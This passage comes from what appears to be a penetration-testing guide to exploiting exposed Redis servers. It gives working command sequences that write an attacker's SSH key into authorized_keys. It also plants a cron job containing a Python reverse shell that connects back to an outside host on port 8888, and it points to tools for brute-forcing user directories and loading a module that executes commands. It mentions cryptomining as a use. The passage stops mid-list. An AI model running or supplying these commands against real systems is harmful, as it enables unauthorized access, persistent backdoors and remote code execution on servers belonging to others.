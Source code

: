 1. Generate a ssh public-private key pair on your pc: **`ssh-keygen -t rsa`**
2. Write the public key to a file : **`(echo -e "\n\n"; cat ~/id_rsa.pub; echo -e "\n\n") > spaced_key.txt`**
3. Import the file into redis : **`cat spaced_key.txt | redis-cli -h 10.85.0.52 -x set ssh_key`**
4. Save the public key to the **authorized_keys** file on redis server:

   ```
   root@Urahara:~# redis-cli -h 10.85.0.52
   10.85.0.52:6379> config set dir /var/lib/redis/.ssh
   OK
   10.85.0.52:6379> config set dbfilename "authorized_keys"
   OK
   10.85.0.52:6379> save
   OK
   ```

5. Finally, you can **ssh** to the **redis server** with private key : **ssh -i id_rsa redis@10.85.0.52**

**This technique is automated here:** [https://github.com/Avinash-acid/Redis-Server-Exploit](https://github.com/Avinash-acid/Redis-Server-Exploit)

Additionally, system users can also be discovered by checking with `config set dir /home/USER`, and upon confirmation, a new `authorized_keys` can be written to `/home/USER/.ssh/authorized_keys`. Use [redis-rce-ssh](https://github.com/captain-woof/redis-rce-ssh) to bruteforce this with a usernames wordlist and overwrite `authorized_keys`.

### Crontab

```
root@Urahara:~# echo -e "\n\n*/1 * * * * /usr/bin/python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.85.0.53\",8888));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'\n\n"|redis-cli -h 10.85.0.52 -x set 1
OK
root@Urahara:~# redis-cli -h 10.85.0.52 config set dir /var/spool/cron/crontabs/
OK
root@Urahara:~# redis-cli -h 10.85.0.52 config set dbfilename root
OK
root@Urahara:~# redis-cli -h 10.85.0.52 save
OK
```

The last example is for Ubuntu, for **Centos**, the above command should be: `redis-cli -h 10.85.0.52 config set dir /var/spool/cron/`

This method can also be used to earn bitcoin ：[yam](https://www.v2ex.com/t/286981#reply14)

### Load Redis Module

1. Following the instructions from [https://github.com/n0b0dyCN/RedisModules-ExecuteCommand](https://github.com/n0b0dyCN/RedisModules-ExecuteCommand) you can **compile a redis module to execute arbitrary commands**.
2. Then you need some way to **upload the compiled** module
3. **Load the uploaded module** at runtime with `MODULE LOAD /path/to/mymodule.so`
4. **List loaded modules** to check it was correctly loaded: `MODULE LIST`
5. **Execute** **commands**:
